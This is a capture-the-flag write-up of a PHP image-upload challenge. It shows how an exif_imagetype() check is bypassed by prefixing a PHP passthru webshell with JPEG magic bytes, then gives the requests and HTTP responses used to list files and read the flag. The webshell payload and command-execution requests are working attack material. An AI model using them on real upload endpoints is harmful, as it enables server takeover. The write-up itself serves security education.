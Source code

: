 ### Solved by historypeats

This challenge allowed us to upload an image and view it. There are checks in place to ensure that the file is indeed an image. It is not based on the file extension. Instead, the check is performed using the exif_imagetype() php function. This function checks the magic headers of a file to determine the MIME type. This can be seen in the following code snippet:

```php
if(!in_array(exif_imagetype($_FILES["file"]["tmp_name"]),$allowed_types)){
    echo '<div class="alert alert-danger" role="alert">Image is not a PNG, JPEG, or GIF.</div>';
    $ok = 0;
}
```
This is easy enough to bypass. All we need to do is create a file with the beginning bytes being the magic headers of an image MIME type and then insert some php code for a webshell.

Creating the webshell with python:
```python
f = open('exploit.php', 'w')
f.write('\xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>') # This is the magic header for a JPEG image
f.close()
```
Now we have a file called exploit.php with the first bytes being the headers for a JPEG file, followed by some php code that will execute what we send in the cmd parameter. All that is left to do is upload the file, navigate to it and enter our commands.

Now that we have a webshell, I start searching for the key. I find it with the following request:
```
http://imageit.p.tjctf.org/uploads/IDqqgpwVJeOetYbFzvAmqA5Q8aD1gZ.php?cmd=ls+../
```
The results of ls for the directory above is as follows:
```
HTTP/1.1 200 OK
Server: nginx/1.6.2 (Ubuntu)
Date: Tue, 28 Apr 2015 19:57:31 GMT
Content-Type: text/html
Content-Length: 77
Connection: keep-alive
X-Powered-By: PHP/5.5.9-1ubuntu4.7
Vary: Accept-Encoding

ÿØÿàDockerfile
flag_obdf3wodfsid0f87sb9f4bs9n90
index.php
upload.php
uploads
```

All we need to do now is cat the file for the flag. I do this with the following request:
```
http://imageit.p.tjctf.org/uploads/IDqqgpwVJeOetYbFzvAmqA5Q8aD1gZ.php?cmd=cat+../flag_obdf3wodfsid0f87sb9f4bs9n90
```

And the response is:
```
HTTP/1.1 200 OK
Server: nginx/1.6.2 (Ubuntu)
Date: Tue, 28 Apr 2015 19:58:00 GMT
Content-Type: text/html
Content-Length: 19
Connection: keep-alive
X-Powered-By: PHP/5.5.9-1ubuntu4.7

ÿØÿàwhat_is_love??

```

Key: what_is_love??
